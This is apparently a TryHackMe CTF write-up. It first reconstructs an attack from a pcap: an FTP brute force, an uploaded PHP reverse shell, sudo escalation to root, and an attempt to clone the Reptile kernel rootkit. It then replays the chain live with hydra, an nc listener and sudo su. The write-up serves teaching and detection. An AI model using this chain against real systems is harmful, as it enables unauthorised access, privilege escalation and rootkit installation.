





<div align="center">

# 🕵️ h4cked
### A blue-team pcap autopsy, then a red-team replay — from FTP brute force to a half-installed kernel rootkit.


</div>

---

## So what's this room about

This one's two rooms in one. Task 1 hands you a `.pcap` and nothing else — a machine got popped, and the job is to read the traffic cold and reconstruct exactly what the attacker did: which service they went after, which tool, which credentials, which file they dropped, and how they escalated to root. Task 2 flips to red team: replay the same attack chain against a live copy of the box and get your own root shell and flag. The twist is that the box doesn't hand you the same password the original attacker used — "the attacker changed the user's password" — so the recon from Task 1 only gets you the *method*, not a free credential.

## What I used

- `Wireshark` — following TCP streams, filtering on `ftp-data`, reading the FTP control channel
- `scapy` (Python) — scripted packet reassembly to pull the full FTP session and the reverse-shell session text straight out of the capture
- `strings` — quick grep over the raw pcap for directory/path artifacts
- `hydra` — brute-forcing the FTP login on the live box
- `nc` — catching the reverse shell
- A web browser — triggering the uploaded PHP shell

## How it went down

### Part 1 — Reading the pcap (Task 1)

**Spotting the attack.** Filtering the capture down to port 21 shows a wall of repeated `USER jenny` / `PASS <guess>` / `331` exchanges — a textbook FTP dictionary attack, one login attempt per connection, dozens of connections in a row. That pattern alone (one username, many passwords, many short-lived TCP streams) is the signature of **Hydra**, Van Hauser's brute-forcing tool.



Reassembling the FTP control stream shows every guessed password rejected with `530 Login incorrect` until one finally lands `230 Login successful`. That successful attempt is immediately followed by `PWD`, which the server answers with the FTP session's current working directory:

```
USER jenny
331 Please specify the password.
PASS <redacted>
230 Login successful.
SYST
215 UNIX Type: L8
PWD
257 "/var/www/html" is the current directory
```



**Finding the backdoor.** Right after logging in, the attacker switches to binary mode and uploads a file:

```
TYPE I
200 Switching to Binary mode.
STOR shell.php
150 Ok to send data.
226 Transfer complete.
SITE CHMOD 777 shell.php
```

Following the `ftp-data` stream (the actual file contents, separate from the FTP control channel) shows exactly what was uploaded: a copy of **pentestmonkey's classic PHP reverse shell**, with the attacker's IP and port already patched in.



Grepping the raw capture for path-like strings confirms the working directory from a different angle and also catches something that happens much later in the same capture — the attacker trying to build a kernel module:

```
257 "/var/www/html" is the current directory
make[1]: Entering directory '/root/Reptile/userland'
Makefile:10: ../.config: No such file or directory
make[1]: Leaving directory '/root/Reptile/userland'
```



**Following the actual intrusion.** Reassembling the reverse-shell TCP stream (the session the uploaded `shell.php` phones home on once requested) gives a full transcript of everything the attacker typed:

```
$ whoami
www-data
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@wir3:/$ su jenny
Password: <redacted>
jenny@wir3:/$ sudo -l
User jenny may run the following commands on wir3:
    (ALL : ALL) ALL
jenny@wir3:/$ sudo su
root@wir3:/# whoami
root
root@wir3:~# git clone https://github.com/f0rb1dd3n/Reptile.git
root@wir3:~# cd Reptile
root@wir3:~/Reptile# make
make[1]: Entering directory '/root/Reptile/userland'
Makefile:10: ../.config: No such file or directory
make: *** [userland_bin] Error 2
```

So the full chain is: `whoami` is the first command run, the hostname is **wir3**, `python3 -c 'import pty; pty.spawn("/bin/bash")'` upgrades the shell to a proper TTY, and `sudo su` is what actually pops the root shell (`jenny` had blanket `(ALL:ALL) ALL` sudo rights — reusing the same FTP password she used to log in). From there the attacker pulled down **Reptile**, a well-known Linux **LKM (loadable kernel module) rootkit** designed to hide processes, files, and connections — about as stealthy a backdoor as a userland attacker can plant. The build itself fails (`../.config` missing — the project needs to be configured with `make menuconfig` before it'll compile), so in this particular capture the rootkit never actually finishes installing.

### Part 2 — Replaying the attack live (Task 2)

**Re-running the brute force.** The live box doesn't accept the password recovered from the pcap — Task 2 makes a point of this ("the attacker has changed the user's password"). Running Hydra fresh against the deployed machine's FTP service with the same username and a common wordlist turns up the new one:

```bash
hydra -l jenny -P /usr/share/wordlists/rockyou.txt ftp://<target-ip>
```

**Dropping the shell.** Same move as the original attacker: edit the IP/port in a copy of the pentestmonkey PHP reverse shell, upload it over FTP as `shell.php`, start a listener, then trigger it with a browser request to `http://<target-ip>/shell.php`.

```bash
nc -lvnp <port>
```

**Privesc to root.** With a shell as `www-data`, upgrade to a TTY, switch to `jenny` with the freshly-cracked password, confirm she has full sudo rights, and take root the same way the attacker did:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
su jenny
sudo -l
sudo su
```

Flag's sitting exactly where the attacker had been working — inside the half-built Reptile checkout:

```bash
cat /root/Reptile/flag.txt
```



## What I actually learned

- **A pcap tells a complete story if you follow the right streams.** The FTP control channel gives you the "what happened" (who, which commands, which files); a separate `ftp-data` stream gives you the actual bytes of whatever was transferred. They have to be read together — the control channel alone won't show you the backdoor's contents.
- **Repeated short-lived connections to one service with one username is the fingerprint of an automated brute force**, independent of which tool produced it — the pattern is recognizable before you ever confirm it's Hydra specifically.
- **Reused credentials collapse privilege boundaries.** The same password got jenny into FTP *and* authenticated her for `su` and `sudo` — a single cracked password walked the attacker straight from an anonymous web upload to root.
- **`(ALL:ALL) ALL` in a sudoers entry is total compromise**, not a minor misconfiguration — there's no privilege escalation technique needed once you have a user with that line.
- **LKM rootkits like Reptile are the "stay hidden" step**, not the initial foothold. It's worth recognizing the name and knowing roughly what a userland attacker does with it, even when (like here) the install itself fails.

## About the flag(s)

The flag was captured and submitted on TryHackMe. Per TryHackMe's rules, the flag value, both FTP/system passwords (the one recovered from the historical pcap and the different one found by re-running Hydra against the live box), are redacted/blacked out in the text and screenshots above rather than posted in plain text.

---

<div align="center">

Writeup by **Simranjit Kaur** · part of the [CTF writeup collection](../README.md)

</div>
